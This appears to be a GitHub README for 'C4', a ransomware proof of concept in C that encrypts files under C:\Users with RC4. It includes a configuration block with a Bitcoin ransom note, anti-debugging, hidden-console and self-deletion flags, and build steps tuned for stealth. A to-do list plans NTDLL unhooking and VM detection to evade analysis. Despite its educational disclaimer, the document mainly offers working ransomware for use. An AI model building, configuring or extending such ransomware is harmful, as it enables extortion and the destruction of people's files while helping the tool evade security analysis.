 # C4

#### Lightweight Ransomware POC with Built-in Anti-Analysis


> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Can drop a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Optionally self-deletes the executable after finishing.  
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo-2.gif](https://i.postimg.cc/8cS0D1ZH/c4-demo-2.gif)](https://postimg.cc/WF5nwPLF)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
#pragma section(".text", read, execute)
// TRUE = Encrypt; FALSE = Decrypt
__declspec(allocate(".text")) BOOL   g_EncryptMode       = TRUE;

// TRUE = Drop a ransom note (g_Note)
__declspec(allocate(".text")) BOOL   g_RansomMode        = TRUE;

// TRUE = Hide the console window
__declspec(allocate(".text")) BOOL   g_HideConsole       = TRUE;

// TRUE = Exit immediately if a debugger is detected
__declspec(allocate(".text")) BOOL   g_AntiDebug         = TRUE;

// TRUE = Self-delete the EXE after finishing
__declspec(allocate(".text")) BOOL   g_SelfDelete        = TRUE;

// TRUE = Print each file encrypted, errors, and total runtime
__declspec(allocate(".text")) BOOL   g_Verbose           = FALSE;

// List of directories to process - final entry **must** be NULL
__declspec(allocate(".text")) LPCWSTR g_Directories[]    = {
    L"C:\\Users",
    NULL
};

// Ransom note text that will be written when g_RansomMode == TRUE
__declspec(allocate(".text")) const char* g_Note =
    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
    "This is not a joke. Want your data restored?\r\n"
    "Send 0.5 BTC to the address below:\r\n"
    "1MockBTCAddrxxxxxxxxxxxxxxxx\r\n"
    "You have 48 hours.\r\n";

// File extensions to skip (include the dot)
LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", 
    L".conf", L".cfg", L".reg", L".dat", 
    L".bat", L".cmd"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)
   - **C/C++ → Code Generation → Basic Runtime Checks:** Default  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem if you need to see output in verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection
